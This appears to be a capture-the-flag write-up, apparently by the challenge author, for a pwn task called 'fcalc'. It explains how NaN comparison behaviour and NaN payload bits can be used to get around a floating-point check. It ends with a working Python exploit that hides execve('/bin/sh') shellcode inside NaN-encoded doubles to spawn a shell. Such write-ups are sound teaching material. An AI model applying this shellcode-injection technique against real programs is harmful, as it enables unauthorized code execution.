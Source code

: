 # fcalc

solved by 48 teams

## idea

The [IEEE 754](https://en.wikipedia.org/wiki/IEEE_754) is a wide-use standard for floating-point calculation and presentation in the computer world. There is a very special number in IEEE 754, which is **NaN (Not a Number)**. It represents invalid result such as the square root of a negative number. It is generated either at the time of computation or at the time of user-initiated inputs.

Two of the special properties of NaN are:

1. its comparison result with other floats (**including NaN and ±∞**):

| Comparison | NaN ≥ *x* | NaN ≤ *x* | NaN > *x* | NaN < *x* | NaN = *x* | NaN ≠ *x* |
| :--------: | --------- | --------- | --------- | --------- | --------- | --------- |
|   Result   | False     | False     | False     | False     | False     | True      |

2. It has many possible encoding, allowing it to carry other information like diagnostic information indicating the source of the NaN. For example, a double (64-bits) NaN can be encoded as:

   `s111 1111 1xxx xxxx xxxx xxxx xxxx xxxx` (s and x can be either 0 or 1)

So I try to design a simple pwn game which exploits those two fun properties. The player may use prop1 to bypass a strict check for double number and use prop2 to encode the shellcode.

## vulnerbility

in `main()`:

1. '0' will call the floating-point stack pointer. (criticality check error)
2. read to the buffer on the stack will overflow into the floating-point stack. (buffer overflow)

Conbine those two vulns can cause shellcode injection. But each 8 bytes of the shellcode should satisfy the constrain `num != 0. && (num < 1. || num > 100.)` (It seems that this constrain may be too loose ...)

## exploit

When we call `1 1 0` (not the police ⊂彡☆))∀`)), the program will start to execute the third double of the floating-point stack. Next step is to write the shellcode.

We may exploit the first 6 bytes of NaN to encode the shellcode:

- First 4 bytes: do something useful
- Next 2 bytes: jump to next NaN
- Final 2 bytes: NaN's header

These code will execute `execve("/bin/sh", NULL, NULL)` to get the shell.

```python
payload = b'1 1 0'.ljust(0x40, b'a')
payload += pack(0x7FFFFFFFFFFFFFFF) * 2 # frist two doubles in the stack (padding)

jmpn = b"\xEB\x02"
NaNHeader = b"\xFF\x7F"
# 0:  31 c0                   xor    eax,eax
# 2:  31 db                   xor    ebx,ebx
# 4:  66 b8 3b 00             mov    ax,0x3b
# 8:  66 bb 68 00             mov    bx,0x68
# c:  48 c1 e3 10             shl    rbx,0x10
# 10: 66 bb 2f 73             mov    bx,0x732f
# 14: 48 c1 e3 10             shl    rbx,0x10
# 18: 66 bb 69 6e             mov    bx,0x6e69
# 1c: 48 c1 e3 10             shl    rbx,0x10
# 20: 66 bb 2f 62             mov    bx,0x622f
# 24: 53                      push   rbx
# 25: 48 89 e7                mov    rdi,rsp
# 28: 31 f6                   xor    esi,esi
# 2a: 31 d2                   xor    edx,edx
# 2c: 0f 05                   syscall
payload += b'\x31\xc0\x31\xdb' + jmpn + NaNHeader
payload += b'\x66\xb8\x3b\x00' + jmpn + NaNHeader
payload += b'\x66\xbb\x68\x00' + jmpn + NaNHeader
payload += b'\x48\xc1\xe3\x10' + jmpn + NaNHeader
payload += b'\x66\xbb\x2f\x73' + jmpn + NaNHeader
payload += b'\x48\xc1\xe3\x10' + jmpn + NaNHeader
payload += b'\x66\xbb\x69\x6e' + jmpn + NaNHeader
payload += b'\x48\xc1\xe3\x10' + jmpn + NaNHeader
payload += b'\x66\xbb\x2f\x62' + jmpn + NaNHeader
payload += b'\x53\x48\x89\xe7' + jmpn + NaNHeader
payload += b'\x31\xf6\x31\xd2' + jmpn + NaNHeader
payload += b'\x0f\x05\x90\x90' + jmpn + NaNHeader	# \x90 is nop

io.sendafter(b"Enter your expression:", payload)
io.interactive()
```

